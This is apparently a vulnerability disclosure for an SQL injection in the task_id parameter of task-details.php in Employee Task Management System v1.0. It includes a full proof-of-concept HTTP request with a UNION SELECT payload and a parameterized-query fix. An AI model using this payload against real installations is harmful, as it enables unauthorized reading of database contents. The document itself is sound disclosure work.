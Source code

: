 # Employee Task Management System - SQL Injection on (task-details.php?task_id=?) with low privilege authentication

### Date: 
> 17 February 2023
### Author Email: 
> navaidnasari@hotmail.co.uk
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Employee Task Management System](https://www.sourcecodester.com/php/15383/employee-task-management-system-phppdo-free-source-code.html)
### Version:
> v 1.0
### SQL Injection
> SQL Injection is a type of vulnerability in web applications that allows an attacker to execute unauthorized SQL queries on the database by exploiting the application's failure to properly validate user input. The attacker can use this vulnerability to bypass the security measures put in place by the application, allowing them to access or modify sensitive data, or even take control of the entire system. SQL Injection attacks can have severe consequences, including data loss, financial loss, reputational damage, and legal liability. To prevent SQL Injection attacks, developers should properly sanitize and validate all user input, and implement strong security measures, such as input validation, output encoding, parameterized queries, and access controls. Users should also be aware of the risks of SQL Injection attacks and take appropriate measures to protect their data.
### Affected Page:
> task-details.php

> On this page task_id parameter is vulnerable to SQL Injection Attack
### Description:
> The employee task management system supports two roles of users, one is admin, and another is a normal employee. the detail of role is given below
+ Admin user has full access to the system 
+ Employee user has only a few menu access i.s. Task Management (view and edit only assigned tasks) and Attendance (clock In and out)

> So, if the admin assigns a task to a normal employee, an employee could perform the SQL Injection by editing that task from his/her profile. Therefore, low-privileged users could able to get the access full system.
### Proof of Concept:
> Following steps are involved:
+ Admin assigned a task to an employee (ABC)
+ ABC employee view the task and could perform the SQL injection with vulnerable parameter (task-details.php?task_id=765)

### Request:
```
GET /etms/task-details.php?task_id=765%27+and+false+union+select+1,version(),3,database(),user(),6,7,8--+- HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ntknjcf821q2u3h85c14qo1r91
Connection: close
```

### Response:
![image](https://user-images.githubusercontent.com/123810418/219780565-6fb7a74b-ac7f-4ec2-997a-3c69abdf37f7.png)

### Recommendation:
> Whoever uses this CMS, should update line no (from 27 to 30) of task-details.php with the following code to avoid SQL Injection attack:
```
Old Code:
$sql = "SELECT a.*, b.fullname 
FROM task_info a
LEFT JOIN tbl_admin b ON(a.t_user_id = b.user_id)
WHERE task_id='$task_id'";
$info = $obj_admin->manage_all_info($sql);
```
```
New Code: 
$sql = $obj_admin->db->prepare("SELECT a.*, b.fullname FROM task_info a LEFT JOIN tbl_admin b ON(a.t_user_id = b.user_id) WHERE task_id=:task_id ");
$sql->bindparam(':task_id', $task_id);
$sql->execute();
$row = $sql->fetch(PDO::FETCH_ASSOC);
```

Thank you for reading
